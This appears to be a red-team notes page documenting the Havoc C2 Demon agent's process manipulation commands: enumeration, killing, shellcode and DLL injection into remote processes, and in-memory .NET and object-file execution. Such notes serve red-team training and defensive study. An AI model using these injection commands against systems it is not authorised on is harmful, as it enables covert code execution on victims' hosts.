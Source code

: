 # 04 - Process Manipulation

Search Tag(s): #havoc #command-and-control #interactive-shell

## 4.1 - Process Manipulation

### 4.1.1 - Help Menu

```
Demon » help proc

 - Command       :  proc
 - Description   :  process enumeration and management
 - Usage         :  proc [command]
 - Example       :  proc list

  Command                        Description
  ---------                      -------------
  list                           displays a list of running processes on the target
  kill                           kills the process from specified PID
  blockdll                       block non microsoft signed dlls
  create                         create a process
  modules                        lists loaded modules/dlls from a remote process
  grep                           grep information from the specified remote process
  memory                         query for memory regions
  find-module                    query for processes with specified loaded module
```

### 4.1.2 - Usage

#### 4.1.2.1 - Create Process

`Demon » proc create notepad.exe`

`Demon » proc create taskmgr.exe`

#### 4.1.2.2 - Terminate Process

`Demon » proc kill <pid>`

#### 4.1.2.3 - Inject Process

##### 4.1.2.3.1 - Shellcode

* Help Menu

```
Demon » help shellcode

 - Command       :  shellcode
 - Description   :  shellcode injection techniques
 - Usage         :  shellcode [subcommand]
 - Example       :  shellcode inject-sys x64 1337 /tmp/rev_shell.x64.bin

  Command                        Description
  ---------                      -------------
  inject                         inject shellcode into a remote process
  spawn                          spawns a temporary process and injects into it
```

* Usage

`Demon » shellcode inject <x64 | x86> <pid> /path/to/shellcode.bin`

`Demon » shellcode spawn <x64 | x86> /path/to/shellcode.bin`

##### 4.1.2.3.2 - Spawn DLL

* Help Menu

```
Demon » help dll

 - Command       :  dll
 - Description   :  dll spawn and injection modules
 - Usage         :  dll [subcommand]
 - Example       :  dll inject 1337 /tmp/module.dll argument

  Command                        Description
  ---------                      -------------
  inject                         inject dll into a remote process
  spawn                          spawns a temporary process and injects a dll into it
```

* Usage

`Demon » dll inject <pid> /path/to/local/file.dll [arguments]`

`Demon » dll spawn /path/to/local/file.dll [arguments]`

##### 4.1.2.3.3 - DotNET CLR Assembly

```
Demon » help dotnet

 - Command       :  dotnet
 - Description   :  execute and manage dotnet assemblies
 - Behavior      :  API Only
 - Usage         :  dotnet [sub command]
 - Example       :  dotnet inline-execute /tmp/seatbelt.exe

  Command                        Description
  ---------                      -------------
  list-versions                  lists installed/available dotnet versions
  inline-execute                 executes assembly in the current process and gets output
```

##### 4.1.2.3.4 - Object File

```
Demon » help inline-execute

 - Command       :  inline-execute
 - Description   :  executes an object file
 - Behavior      :  API Only
 - Usage         :  inline-execute [/path/to/objectfile.o] (arguments)
 - Example       :  inline-execute /tmp/objectfile.x64.o hello
```